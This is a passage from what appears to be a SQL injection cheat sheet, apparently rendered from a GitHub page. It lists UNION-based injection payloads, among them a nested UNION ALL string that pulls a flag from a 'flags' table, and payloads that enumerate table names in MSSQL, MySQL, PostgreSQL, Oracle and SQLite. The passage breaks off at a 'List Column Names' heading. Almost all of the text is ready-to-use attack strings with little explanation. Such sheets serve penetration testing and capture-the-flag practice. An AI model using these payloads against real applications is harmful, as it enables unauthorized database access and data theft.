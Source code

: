 ```html
' UNION SELECT NULL,NULL,'a'-- -
```

### UNION ALL

We can combine the result of the query into the one column by using “UNION ALL” syntax.

```txt
' UNION ALL SELECT "' UNION SELECT flag,NULL,NULL from flags-- -",NULL,NULL from users-- -
```

<br />

## List Table Names

Get the table name in which you want to get the information.

### MSSQL

```txt
' UNION SELECT table_name,NULL FROM information_schema.tables--
```

### MySQL

```html
' UNION SELECT table_name,NULL FROM information_schema.tables-- -
' UNION SELECT table_name,NULL FROM information_schema.tables#

<!-- group_concat(): Dump all tables simultaneously -->
' UNION SELECT group_concat(table_name),NULL FROM information_schema.tables-- -
' UNION SELECT group_concat(table_name),NULL FROM information_schema.tables#
```

### PostgreSQL

```txt
' UNION SELECT table_name,NULL FROM information_schema.tables--
```

### Oracle

```txt
' UNION SELECT table_name,NULL FROM all_tables--
```

### SQLite

```html
' UNION SELECT tbl_name FROM sqlite_master--
' UNION SELECT tbl_name,NULL FROM sqlite_master--
```

<br />

## List Column Names
